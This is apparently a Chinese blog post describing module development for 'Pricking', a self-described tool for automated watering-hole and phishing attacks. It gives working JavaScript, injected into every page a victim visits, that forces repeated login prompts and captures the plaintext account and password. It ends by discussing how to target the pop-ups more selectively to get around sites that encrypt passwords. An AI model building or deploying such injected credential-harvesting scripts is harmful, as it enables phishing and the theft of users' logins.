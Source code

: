```yaml
---
date: "2021-02-18T00:00:00Z"
description: Pricking 是一个自动化部署水坑和网页钓鱼的开源项目，本文介绍Pricking项目的JS模块开发。
title: Pricking 项目（二） ：JS模块开发
url: /archivers/2021-02-18/2
---
```


> 视频介绍：[bv1SK4y1n7xx](https://www.bilibili.com/video/bv1SK4y1n7xx)

## 0x00 目录结构介绍


```
.
├── access.log # 日志文件
├── docker-compose.yml # 容器配置文件
├── README.md  # 说明文档
└── static  # 静态文件夹
    ├── index.html # 测试页面
    ├── modules # JS模块目录
    │   └── cookie.js  # cookie相关模块
    ├── README.md  # JS模块文档
    └── static.js  # 主静态文件，会被默认加载到页面中

2 directories, 7 files
```
## 0x01 新建模块 - 窃取凭证

首先用VScode打开项目目录，在modules中新建一个`getpass.js`文件：

![2021-02-18-01-05-16](../../../static/images/b15016dc-4f5f-11ec-9920-00d861bf4abb.png)

写入代码：

```js
/*
模拟一个对话框
prompt("请输入账号：")

用户输入 账号
用户输入 密码

保存凭证

*/

export function getPassword(u_info, p_info){

    var cert = new Object();
    cert.username = null;
    cert.password = null;

    while(cert.username == null || cert.username == "" ){
        cert.username = prompt(u_info);
    }

    while(cert.password == null || cert.password == ""){
        cert.password = prompt(p_info);
    }

    return cert;
}
```

最后在`static.js`中引入：

![2021-02-18-01-07-02](../../../static/images/b1850a18-4f5f-11ec-9e2c-00d861bf4abb.png)


```js
import * as GetPassword from "./modules/getpass.js"
console.log(GetPassword.getPassword("请输入账号：", "请输入密码："));
```

查看站点：

![2021-02-18-01-09-04](../../../static/images/b1c06a22-4f5f-11ec-a9c9-00d861bf4abb.png)

访问页面就会自动弹出提示框，当完成输入后，控制台会打印明文账号密码。

![2021-02-18-01-10-02](../../../static/images/b1fdd51a-4f5f-11ec-b3a8-00d861bf4abb.png)

## 0x02 窃取凭证模块的思考

现阶段大部分网站已经解决了明文传输的问题，基本上很多都是通过JS进行加密，这让获取明文密码变得更加“麻烦了点”。

上述演示的模块是在每一个HTTP请求中都会执行，肯定是不友好的，因此可以根据判断页面内容来进行弹出，还需要不断优化。
